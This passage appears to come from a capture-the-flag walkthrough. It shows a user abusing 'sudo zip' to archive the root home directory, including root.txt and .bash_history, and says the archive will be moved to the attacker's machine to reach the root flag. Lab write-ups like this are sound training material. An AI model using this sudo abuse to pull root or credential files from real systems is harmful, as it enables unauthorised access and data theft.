 Let's zip the root folder then. Once done, we'll send that file to our machine to unzip it without any permissions requirements.\
```
merlin@ubuntu:/$ sudo /usr/bin/zip -r zipped root/

  adding: root/ (stored 0%)
  adding: root/root.txt (stored 0%)
  adding: root/.bashrc (deflated 54%)
  adding: root/.bash_history (stored 0%)
  adding: root/ufw/ (stored 0%)
  adding: root/ufw/ufw.sh (stored 0%)
  adding: root/.nano/ (stored 0%)
  adding: root/.profile (deflated 20%)
```

Found the root flag.

